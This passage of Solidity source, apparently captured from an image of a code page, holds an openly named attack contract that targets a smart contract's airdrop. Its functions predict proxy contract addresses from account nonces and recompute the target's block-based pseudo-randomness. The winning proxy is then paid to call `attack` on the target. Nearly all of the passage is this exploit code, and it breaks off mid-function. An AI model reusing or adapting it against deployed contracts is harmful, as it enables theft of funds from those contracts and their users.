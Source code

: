 ```
	}

	function attack(address attackee, uint airDropTracker_) isMe public payable {
		for (uint8 i = 0; i < 100; i++) {
			address proxy_address = _proxy[i];
			uint proxy_nonce = _nonce[i] + 1;
			if (fake_airdrop(count_next_address(proxy_address, proxy_nonce), airDropTracker_)) {
				if (proxy_address.call.value(100000000000000000)(abi.encodeWithSelector(bytes4(keccak256("attack(address)")), attackee)) == false) {
					// These code will not be executed, even though call fail.
					revert();
				}
				_nonce[i] ++;

				break;
			}
		}
	}

	function fake_airdrop(address next_address, uint airDropTracker_) public  returns(bool) {


        uint256 seed = uint256(keccak256(abi.encodePacked(
            
            (block.timestamp).add
            (block.difficulty).add
            ((uint256(keccak256(abi.encodePacked(block.coinbase)))) / (now)).add
            (block.gaslimit).add
            ((uint256(keccak256(abi.encodePacked(next_address)))) / (now)).add
            (block.number)
            
        )));
        if ((seed - ((seed / 1000) * 1000)) < airDropTracker_) {
        	emit by_pass(true);
            return true;
        }
        else {
        	emit by_pass(false);
            return false;
        }
    }

	function count_next_address(address addr, uint non) public returns(address) {

		uint8  len_non;
		uint8 len;
		bytes memory rlp;

		if (non >= 0 && non <= 0x7f)
			len_non = 0;
		else if (non <= 0xff)
			len_non = 1;
		else if (non <= 0xffff)
			len_non = 2;
		else if (non <= 0xffffff)
			len_non = 3;
		else if (non <= 0xffffffff)
			len_non = 4;
		else if (non <= 0xffffffffff)
			len_non = 5;
		else if (non <= 0xffffffffffff)
			len_non = 6;
		else if (non <= 0xffffffffffffff)
```